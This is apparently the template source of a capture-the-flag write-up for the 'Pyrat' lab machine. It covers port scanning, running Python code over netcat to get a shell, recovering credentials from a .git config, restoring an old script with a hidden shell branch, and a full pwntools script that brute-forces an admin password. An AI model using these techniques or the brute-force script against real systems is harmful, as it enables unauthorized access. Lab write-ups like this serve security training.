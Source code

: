 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("Let's begin by scanning all the ports.")}}

{{console("nmap -T5 -p- 10.10.209.122", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-15 09:23 CET
Nmap scan report for 10.10.209.122
Host is up (0.090s latency).
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
")}}

{{text("After visiting the site on port 8000, we encountered the following.")}}

{{image("../../static/writeups/pyrat/images/000001.jpg")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("Initially, I tried using Burp Suite, but it didn't lead anywhere. Then, I used netcat to connect to the address. Since it was stated that <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>a HTTP response leads to a Python code vulnerability</code>, I immediately attempted to run Python code.")}}

{{console("nc 10.10.209.122 8000", "l
name 'l' is not defined
test
name 'test' is not defined
print(2)
2")}}

{{text("Since it worked, I used a Python reverse shell from <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and attempted to get it running.")}}

{{image("../../static/writeups/pyrat/images/000002.jpg")}}

{{text("This worked, and now we were the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>www-data</code> user.")}}

{{header("Shell as think", "shell-as-think")}}

{{text("While exploring the system, I discovered a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.git</code> directory inside <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/opt/dev</code>.")}}

{{text("The challenge description mentioned we should <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>explore the application's older version</code>, so I decided to investigate further.")}}

{{text("Inside the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.git</code> directory, I came across an old <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>config</code> file containing user credentials.")}}

{{console("cat config", "[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential 'https://github.com']
        username = think
        password = [REDACTED]")}}

{{text("We switched users to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>think</code> and successfully logged in using the newly obtained password.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Next, we navigated to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/opt/dev</code> to check for the older version of the application.")}}

{{console("git status", "On branch master
Changes not staged for commit:
  (use 'git add/rm <file>...' to update what will be committed)
  (use 'git restore <file>...' to discard changes in working directory)
        deleted:    pyrat.py.old

no changes added to commit (use 'git add' and/or 'git commit -a')")}}

{{text("We noticed that <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>pyrat.py.old</code> had been deleted. Let's attempt to restore that file.")}}

{{image("../../static/writeups/pyrat/images/000003.jpg")}}

{{text("Now, we can read the contents of the restored file.")}}

{{console("cat pyrat.py.old", "def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if not approved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn('/bin/sh')")}}

{{text("We can see that if <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>data == 'shell'</code>, the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>shell</code> function is executed, which spawns a shell.")}}

{{text("Let's try connecting to our target again using netcat and input <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>shell</code>.")}}

{{image("../../static/writeups/pyrat/images/000004.jpg")}}

{{text("It works, but unfortunately, we are still the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>www-data</code> user.")}}

{{text("It seems that the key is to correctly guess the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>some_endpoint</code>.")}}

{{text("To be honest, I didn't feel like writing a script for it, so I started guessing since this is an easy challenge, and I got lucky.")}}

{{image("../../static/writeups/pyrat/images/000005.jpg")}}

{{text("We need the admin's password, so I guess that's karma. I wrote a script to guess the password.")}}

{{console("from pwn import *

server = '10.10.88.128'
port_number = 8000
wordlist_path = '/usr/share/wordlists/rockyou.txt'

def create_connection():
    return remote(server, port_number)

def try_login(password_guess):
    session = create_connection()
    session.sendline(b'admin')
    session.recvuntil(b'Password:')
    session.sendline(password_guess.encode())
    feedback = session.recvline(timeout=2)
    feedback = session.recvline(timeout=2)
    if b'Password:' in feedback:
        print(f'Attempt with \'{password_guess}\' failed.')
        session.close()
        return False
    elif b'Welcome' in feedback or b'Success' in feedback:
        print(f'Potential success with \'{password_guess}\'!')
        session.close()
        return True
    else:
        print(f'Unexpected feedback for \'{password_guess}\': {feedback}')
        session.close()
        return False

def brute_force_password():
    with open(wordlist_path, 'r', encoding='latin-1') as wordlist:
        for password in wordlist:
            password = password.strip()
            if try_login(password):
                print(f'Valid password identified: {password}')
                break

if __name__ == '__main__':
    brute_force_password()")}}

{{text("We got the password almost immediately.")}}

{{image("../../static/writeups/pyrat/images/000006.jpg")}}

{{text("After logging in as admin, we gained root access. Now, we just need to go to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/root</code> and retrieve our flag.")}}

{{image("../../static/writeups/pyrat/images/000007.jpg")}}

{{script()}}  
